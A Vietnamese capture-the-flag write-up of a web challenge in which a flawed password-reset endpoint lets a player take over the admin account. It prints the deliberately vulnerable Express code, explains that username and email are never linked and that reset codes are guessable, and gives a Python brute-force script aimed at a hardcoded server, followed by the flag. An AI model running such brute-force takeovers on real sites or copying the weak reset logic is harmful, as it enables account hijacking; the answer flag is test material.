

# Description

> Kẻ ngu nói về quá khứ, kẻ khôn nói về hiện tại, người thông minh nói về tương lai, người chơi mảng web không thể không làm bài này.
> 
> Author: phughj
> 
> public.zip

# TL;DR

Một trang web có chức năng đăng kí, đăng nhập và đổi mật khẩu. Mục tiêu của mình là phải tìm cách đăng nhập vào tài khoản admin để lấy flag. Yêu cầu của bài này là khai thác việc bảo mật lỏng lẻo ở chức năng đổi mật khẩu khiến người chơi có thể đổi được mật khẩu của admin

# Initial reconnaissance

Khi tạo tài khoản và đăng nhập lần đầu mình nhận được giao diện như sau



Có vẻ là phải tìm cách để đăng nhập vào tài khoản của admin rồi

Khi mới mở chall lên mình thấy có một tính năng thường không xuất hiện ở những chall khác là tính năng **reset password**


**Source code của phần reset pasword**:

**resetPassword.js**:

```js
const express = require('express');
const bcrypt = require('bcrypt');
const { v4: uuidv4 } = require('uuid');
const db = require('../config/database');
const { checkCodeReset, updateCodeReset } = require('../services/resetPasswordService');

const router = express.Router();

router.post('/resetpassword', (req, res) => {
    const { username, email, passwordnew, code_reset } = req.body;

    if (!username || !email) {
        return res.status(400).json({ error: 'Username and email are required' });
    }

    const validateQuery = 'SELECT 1 FROM users WHERE username = ? UNION SELECT 2 FROM users WHERE email = ?';
    
    db.query(validateQuery, [username, email], (error, results) => {
        if (error) {
            console.error('Validation error:', error);
            return res.status(500).json({ error: 'Database error during validation' });
        }

        if (results.length !== 2) {
            return res.status(400).json({ error: 'Invalid username or email' });
        }

        if (!code_reset || code_reset === '') {
            let newResetCode;
            if (email.toLowerCase().includes('admin')) {
                newResetCode = uuidv4();
            } else {
                const randomLetter = String.fromCharCode(65 + Math.floor(Math.random() * 6));
                const randomNumbers = Math.floor(10 + Math.random() * 90);
                newResetCode = randomLetter + randomNumbers + randomLetter;
            }            
            updateCodeReset(username, email, newResetCode, (error, resetCode) => {
                if (error) {
                    return res.status(500).json({ error: 'Failed to create reset code' });
                }
                res.json({ 
                    success: true, 
                    message: 'Reset code generated. Check your email (feature not yet implemented)'
                });
            });
        } else {
            checkCodeReset(username, email, code_reset.trim(), async (error, isValid, errorMessage, resetData) => {
                if (error) {
                    return res.status(500).json({ error: 'Database error' });
                }              
                if (!isValid) {
                    return res.status(400).json({ error: errorMessage });
                }
                if (!passwordnew) {
                    return res.status(400).json({ error: 'New password is required' });
                }

                const hashedPassword = await bcrypt.hash(passwordnew, 10);

                db.query(
                    'UPDATE users SET password = ? WHERE username = ?',
                    [hashedPassword, username],
                    (error, results) => {
                        if (error) {
                            return res.status(500).json({ error: 'Failed to update password' });
                        }                       
                        updateCodeReset(username, email, "", (err) => {
                            if (err) console.error('Failed to reset code:', err);
                        });                      
                        res.json({ 
                            success: true, 
                            message: 'Password reset successful! Please login with your new password.' 
                        });
                    }
                );
            });
        }
    });
});

module.exports = router;
```

**resetPasswordService.js**

```js
const bcrypt = require('bcrypt');
const { v4: uuidv4 } = require('uuid');
const db = require('../config/database');

function checkCodeReset(username, email, code_reset, callback) {
    db.query(
        'SELECT *, TIMESTAMPDIFF(MINUTE, createdate, NOW()) as minutes_elapsed FROM users_resetpassword WHERE username = ? AND email = ?',
        [username, email],
        (error, results) => {
            if (error) {
                return callback(error, null);
            }
            
            if (results.length === 0) {
                return callback(null, false, 'Invalid reset code');
            }
            
            const resetData = results[0];
            
            if (resetData.minutes_elapsed > 5) {
                return callback(null, false, 'Reset code has expired. Please request a new one.');
            }
            
            if (resetData.code_reset !== code_reset) {
                return callback(null, false, 'Invalid reset code', resetData);
            }
            
            return callback(null, true, null, resetData);
        }
    );
}

function updateCodeReset(username, email, code_reset, callback) {
    db.query(
        'SELECT * FROM users_resetpassword WHERE username = ? AND email = ?',
        [username, email],
        (error, results) => {
            if (error) {
                return callback(error, null);
            }
            if (results.length > 0) {
                db.query(
                    'UPDATE users_resetpassword SET code_reset = ?, createdate = CURRENT_TIMESTAMP WHERE username = ? AND email = ?',
                    [code_reset, username, email],
                    (error, results) => {
                        if (error) {
                            return callback(error, null);
                        }
                        return callback(null, code_reset);
                    }
                );
            } else {
                db.query(
                    'INSERT INTO users_resetpassword (username, email, code_reset) VALUES (?, ?, ?)',
                    [username, email, code_reset],
                    (error, results) => {
                        if (error) {
                            return callback(error, null);
                        }
                        return callback(null, code_reset);
                    }
                );
            }
        }
    );
}

module.exports = {
    checkCodeReset,
    updateCodeReset
};
```

Phân tích một hồi thì mình có nhận xét về cách hoạt động của nó như sau:

- Khi người chơi gửi một post request tới endpoint `/resetpassword` thì máy chủ sẽ lấy ra 4 tham số là `username`, `email`, `passwordnew` và `code_reset`

- Sau đó máy chủ tiếp tục kiểm tra xem `username` và `email` có tồn tại trong database không

- Tiếp đó sẽ xảy ra hai trường hợp

    - Nếu không có tham số `code_reset` hoặc đối số của nó rỗng thì máy chủ sẽ tiến hành tạo một cái tương ứng với `username` và `email`

    - Nếu tồn tại tham số `code_reset` không rỗng thì máy chủ sẽ tiến hành kiểm tra xem có tồn tại `code_reset` tương ứng với `username` và `email` không, nếu có thì sẽ đổi mật khẩu của `username` thành `passwordnew` 


# Exploit and get flag

Sau khi phân tích xong mình nhận ra có hai lỗ hổng:

1. **Không** một lúc nào trong cả quá trình reset password mà máy chủ check xem `username` và `email` có liên kết với nhau không

2. Code reset mà máy chủ tạo ra **rất dễ** để brute force nếu email không có chữ **admin**

Phân tích thêm về cách mà máy chủ tạo ra reset code:

```js
let newResetCode;
if (email.toLowerCase().includes('admin')) {
    newResetCode = uuidv4();
} else {
    const randomLetter = String.fromCharCode(65 + Math.floor(Math.random() * 6));
    const randomNumbers = Math.floor(10 + Math.random() * 90);
    newResetCode = randomLetter + randomNumbers + randomLetter;
}  
updateCodeReset(username, email, newResetCode, (error, resetCode) => {
...
```

- Nếu `email` có chứa "admin" thì `newResetCode` sẽ là một chuỗi kí tự rất khó để đoán

- Nhưng nếu không thì cấu trúc của `newResetCode` lại rất đơn giản
    - **Cấu trúc**: L + N + L

    - **L**: các kí tự có mã ASCII từ 65 đến 65 + 6 *(vì hàm Math.random() trả giá trị trong đoạn [0, 1])*

    - **N**: các số từ 10 đến 100

    -> Có tổng cộng **6 * 90 = 540** trường hợp

Tổng hợp tất cả các dữ kiện trên mình có kịch bản khai thác như sau:

- Tạo tài khoản với email tùy ý (không có chữ admin) để nó được lưu trên database

- Gửi một post request tới endpoint `/resetpassword` với `username` là **admin**, `email` là cái mình vừa tạo, `code_reset` và `passwordnew` chưa cần để cũng được

- Server thấy `code_reset` trống và tiến hành tạo một cái đơn giản do email là của mình và lưu vào database

- Sau đó mình brute `code_reset` với cấu trúc đã phân tích ở trên cho đến khi nó chấp nhận thì thôi

- Đăng nhập bằng tài khoản **admin** với password vừa đổi và lấy flag


**Script brute code**

```py
import requests

URL = "http://14.225.220.66:5018/resetpassword"
payload = {
    "username": "admin",
    "email": "user@gmail.com",
    "code_reset": "",
    "passwordnew": "goku"
}

# Gửi một request với code_reset trống để tạo code_reset trước
requests.post(url=URL, json=payload)

for i in range(65, 65 + 6 + 1):
    L = chr(i)
    for N in range(10, 10 + 90 + 1):
        
        code_reset = L + str(N) + L
        payload['code_reset'] = code_reset
        
        try:
            response = requests.post(url=URL, json=payload, timeout=2)
            print(f"{code_reset} {response.status_code} {response.text}")
            
            if (response.status_code != 200):
                continue
            
            print("Success")
            exit()

        except requests.exceptions.ConnectTimeout:
            # Thi thoảng server bị lag mình bỏ qua code đó
            pass
```

Chạy code ta được

```
...
F74F 400 {"error":"Invalid reset code"}
F75F 400 {"error":"Invalid reset code"}
F76F 200 {"success":true,"message":"Password reset successful! Please login with your new password."}
Success
```

Lúc này đăng nhập vào tài khoảng admin với mật khẩu vừa đổi sẽ được một giao diện có nút `Get Flag` ở giữa. Nhấn vào là sẽ có flag


**Flag**: `KCSC{Pr4ct1c3_M4k3s_P3rf3ct!_2a561747db90855b98ddeed0775fe64c}`
